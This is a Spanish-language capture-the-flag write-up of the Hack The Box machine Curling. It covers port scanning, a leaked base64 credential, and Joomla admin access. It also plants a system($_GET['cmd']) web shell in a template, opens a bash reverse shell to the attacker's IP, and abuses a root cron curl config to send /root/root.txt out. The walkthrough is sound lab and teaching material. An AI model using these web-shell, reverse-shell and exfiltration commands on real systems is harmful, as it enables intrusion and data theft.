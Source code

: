 ```yaml
---
layout: post
title: Hack The Box Curling Write-Up
date: 2024-11-18
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [curl, cyberchef, joomla!, rce, pspy, cron, eJPT, IntroToDante, Easy, Web]
---
```

![Curling Logo](/assets/post_details/curling/curling_logo.png)
# Hack The Box: Curling Write-Up
La **maquina easy** [Curling](https://app.hackthebox.com/machines/160) de [Hack The Box](https://app.hackthebox.com/) 

## Enumeration
Realizamos la enumeración de puertos y de servicios en los que encontramos abiertos los puertos:
- 22 - SSH -> `OpenSSh 7.6p1`
- 80 - HTTP -> `Apache httpd 2.4.29`, el cual contiene el **CMS** **Joomla!**.
```bash
# Escaneo de todos los puertos abiertos
nmap -p- -sS -n --min-rate 5000 --open 10.10.10.150 -oN tcp_scan.txt

# Escaneo puertos especificos
nmap -p22,80 -Pn --min-rate 5000 -n -sCV --open 10.10.10.150 -oN full_scan.txt
```
![NMAP](/assets/post_details/curling/curling_nmap.png)
### HTTP(80) - Joomla!
Se trata de un blog, donde el usuario **Super User** ha agregado varios posts, en estos posts existen varias palabras entre comillas o que pueden ser interesantes como `pebble`, `Floris`, `curl`, `curling2018`.
![WebPage](/assets/post_details/curling/curling_webpage.png)

Realizando un `Ctrl + O` o analizando el codigo, avistamos un comentario sobre un posible archivo en el sistema **secret.txt**.
![Secret Code](/assets/post_details/curling/curling_secret.png)

Este archivo existe en la raiz de la aplicación web, contiene un string encriptado con algun tipo de metodo de encriptación.
![Secret Note](/assets/post_details/curling/curling_show_secret.png)

Probramos a decodificarlo con **base64** y con exito obtenemos un string parecido a uno de los del texto, aunque este tiene una `!` por lo que podria tratarse de una credencial.
![base64](/assets/post_details/curling/curling_base64.png)

Una vez tenemos lo que puede ser la credencial debemos de obtener el nombre de usuario, si analizamos este post acaba dejando un nombre, normalmente esto se hace para dejar quien ha escrito el texto. En este caso el string es `Floris`, aunque en el login lo probaremos todo en lowercase `floris`.
![Username Joomla](/assets/post_details/curling/curling_username_joomla.png)

Mediante la ruta `administrator`, el cual es el acceso de administración del **CMS Joomla!**, en el que introducimos las credenciales y con exito obtenemos acceso al panel.
![Login Admin](/assets/post_details/curling/curling_login_admin.png)
## FootHold
### Template RCE Joomla!
Existen varias maneras de tomar el control desde **Joomla!** una de ellas es la [siguiente](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla):
- Clicar en `Templates`, abajo a la izquierda en el menu de `Configuration`.
- Clicar en una nombre de template, por ejemplo `protostar`, debajo de la cabecera de `Templates`, esto nos llevara a pagina de modificación de templates
- Finalmente deberemos de editar un archivo del template, en nuestro caso editamos el `error.php` agregandole `system($_GET['cmd'])`.
![RCE](/assets/post_details/curling/curling_rce.png)

Una vez tenemos realizada la modificación del archivo **php**, mediante **curl** mandamos una petición con la flag `?cmd=`, y el comando que queramos que se ejecute a nivel de sistema.
![Curl RCE](/assets/post_details/curling/curling_curl_rce.png)

Para conseguir acceso al sistema nos levantamos un **listener** por el puerto **443** en mi caso e introducimos un **reverse shell** de bash apuntando a nuestro servidor y conseguirmos acceso al sistema como **www-data**:
```bash
curl -s "http://10.10.10.150/templates/protostar/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.4/443 0>%261"
```
![Get www-data](/assets/post_details/curling/curling_get_www-data.png)
## PrivEsc
### www-data -> floris
Una vez hecho realizamos un **Tratamiento de TTY** para así poder trabajar de una mejor manera.

Empezamos a enumerar el sistema buscando la credencial del usuario **floris** para asi poder escalar privilegio, encontramos un archivo en el home del usuario `floris`, al cual tenemos permisos de lectura, aunque es un archivo en binario por lo que no lo podemos leer. 
![Password Backup](/assets/post_details/curling/curling_password_backup.png)

Aunque con [CyberChef](https://cyberchef.org) podemos realizar un **magic decrypt** para asi ver el contenido del archivo.
En este caso el archivo binario, contiene un archivo en txt llamado **password.txt** el cual contiene una credencial.
![CyberChef](/assets/post_details/curling/curling_cyberchef.png)

Esta credencial nos sirve para escalar privilegio al usuario **floris**.
![Get User](/assets/post_details/curling/curling_get_user.png)
### floris -> get_flag
Utilizamos [pspy](https://github.com/DominicBreuker/pspy) para la enumeración de tareas cron en el sistema, para esto nos descargamos la herramienta **pspy64**, y la transferimos con la herramienta **scp**, comunicación a traves del protocolo **ssh**.
```bash
mv /home/ant0/Downloads/pspy64 .
chmod +x pspy64
scp pspy64 floris@10.10.10.150:/home/floris
```

Podemos que el usuario **root** esta realizando algunas tareas cada cierto tiempo, en este caso copia el contenido del archivo `/root/default.txt` a `/home/floris/admin-area/input` el cual contiene `url = 127.0.0.1`.

El comando con **curl** realiza lo siguiente:
- La opción **-K** le indica a curl que lea un archivo de configuración en la ruta `/home/floris/admin-area/input`. 
  Este archivo puede contener múltiples opciones de configuración para curl, como la URL del servidor, encabezados personalizados.
- Con `-o /home/floris/admin-area/report` el contenido resultante de la solicitud HTTP será guardado en `/home/floris/admin-area/report`.
![Cron Tasks](/assets/post_details/curling/curling_show_cron.png)

Lo que podemos realizar para capturar la flag es de apuntar a nuestra maquina con la propiedad **url** y con **data** hacia la flag: 
```bash
url = "http://10.10.14.4"
data = @/root/root.txt
```

Nos abrimos un listener en nuestra maquina por el puerto 80 y cuando la tarea se vuelva a ejecutar nos mostrara la flag:
![Get Flag](/assets/post_details/curling/curling_get_system_flag.png)
